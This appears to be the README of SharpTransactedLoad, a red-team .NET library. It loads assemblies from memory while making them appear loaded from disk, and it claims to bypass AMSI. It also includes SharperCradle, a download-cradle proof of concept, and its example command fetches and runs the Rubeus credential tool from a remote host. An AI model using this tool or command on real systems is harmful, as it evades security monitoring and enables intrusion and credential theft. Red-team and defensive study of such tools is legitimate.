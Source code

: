 # SharpTransactedLoad
Load .net assemblies from memory while having them appear to be loaded from an on-disk location. Bypasses AMSI and expands the number of methods available for use in loading arbitrary assemblies while still avoiding dropping files to disk - some of which provide additional functionality over the traditional Assembly.Load call.  Currently built for .net 4.5, but should be compatible with other versions.

## Building and Using
**Note**: Testing was done with an x64 build, and as a result I would recommend building the project as x64. This still allows you to reflectively load both x86 and x64 assemblies from memory.  Rather, this setting just controls the architecture of the dll itself. Although "Any CPU" appears to function as intended as well, I have no clue if any weird behavior would be exhibited when attempting to inject into an x86 process etc.

The repo consists of two projects: SharpTransactedLoad (STL) and SharperCradle.  STL contains the actual code and compiles to a .dll that can then be used in other projects.  SharperCradle is a very simple proof of concept web download cradle showing how STL can be used in a portable tool to avoid having to call Assembly.Load(byte[]).  Both projects use Costura to merge all the necessary DLLs into a single portable package.

### SharpTransactedLoad
This project builds as a DLL, and as a result it isnt something that can be directly ran.  Rather, once this is built you can add it as a reference in another project and use it by calling "STL.TransactedAssembly.Load(byte[])"
STL uses EasyHook for hooking functions.  Within the project there are currently two required EasyHook DLLs:
  - **EasyHook.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/ folder.  A managed DLL and handles communications with the second (unmanaged) EasyHook dll.
  - **EasyHook64.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/Costura64 folder.  An unmanaged DLL, and handles the actual hooking functions.
Both of these DLL's were taken straight from EasyHook, but I definitely understand folks hesitancy to blindly trust pre-compiled code.  If you opt for the more opsec route, the original DLLs can be pulled directly from EasyHook and swapped for the ones currently in the project, just make sure names align.  Also, when browsing the project you may notice the Costura32 folder does not have anything in it.  If you opt to build as x86, I would drop the DLL in there.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Recommended) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - (Optional) Change deployment config to Debug or Release, as suits your needs.  Debug will print a bunch of output to the console when an assembly is loaded regarding the results of the different steps in the process, whereas release runs without printing anything.
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.

### SharperCradle
This serves as a PoC of how STL can be used in a project to avoid the standard Assembly.Load(byte[]) call.  Builds as a PE.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Required if you built STL as x64) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.
  
Once built, calling is super basic - just pass the uri of the resource you're attempting to load as the first arg, with any args to be passed to the loaded assembly behind that, for example:

```
SharperCradle.exe http://192.168.1.100/Rubeus.exe Triage
```

## Credits
  - [@FuzzySec]( https://twitter.com/FuzzySec): Prior work on hooking with EasyHook - specifically [Dendrobate]( https://github.com/FuzzySecurity/Dendrobate), from which I based this project off of.
  - [@Anthemtotheego]( https://twitter.com/anthemtotheego): Guidance on Transactional NTFS + [SharpCradle]( https://github.com/anthemtotheego/SharpCradle), which the SharperCradle PoC was based off of.
